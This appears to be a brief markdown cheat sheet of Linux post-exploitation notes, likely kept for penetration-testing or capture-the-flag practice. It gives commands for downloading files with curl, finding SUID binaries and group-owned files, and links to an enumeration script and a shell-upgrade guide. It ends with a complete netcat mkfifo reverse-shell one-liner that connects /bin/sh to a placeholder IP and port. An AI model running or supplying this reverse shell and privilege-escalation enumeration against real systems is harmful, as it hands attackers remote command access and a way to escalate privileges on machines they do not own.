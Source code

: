 # Password File
[/etc/passwd](https://www.ibm.com/docs/en/aix/7.2?topic=passwords-using-etcpasswd-file)

# Download file
curl -o localNamed http://0.0.0.0:8000/fileName

# Enumeration:
## SUID bits:
* find / -perm -u=s -type f 2>/dev/null
* [LinEnum](https://github.com/rebootuser/LinEnum)

## Group files:
find / -group groupName -type f 2>/dev/null

## Privilege escalation:
* [Spawn a TTY shell](https://netsec.ws/?p=337)
* If you have a limited TTYY start another reverse shell with Python or another program(e.g limited reverse shell -> Spawn another shell)

## Linux Netcat:
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f
